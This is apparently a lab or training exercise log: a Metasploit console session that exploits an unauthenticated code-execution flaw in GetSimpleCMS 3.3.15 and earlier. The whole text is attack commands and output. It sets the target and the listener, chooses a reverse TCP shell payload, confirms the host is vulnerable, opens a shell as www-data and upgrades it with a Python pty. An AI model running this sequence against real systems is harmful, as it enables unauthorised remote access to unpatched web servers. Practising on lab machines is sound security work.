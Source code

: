 ```bash

msf6 > use 1
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show options

Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port
   RHOSTS                      yes       The target host(s)
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before

msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set rhosts 10.129.42.249
rhosts => 10.129.42.249
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set lhost 10.10.15.201
lhost => 10.10.15.201
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > show payloads
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > set payload generic/shell_reverse_tcp
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > check
[+] 10.129.42.249:80 - The target is vulnerable.
msf6 exploit(multi/http/getsimplecms_unauth_code_exec) > exploit

[*] Started reverse TCP handler on 10.10.15.201:4444
[*] Command shell session 1 opened (10.10.15.201:4444 -> 10.129.42.249:45940) at 2024-04-02 11:21:23 -0300

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
which python3
/usr/bin/python3
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@gettingstarted:/var/www/html/theme$
```
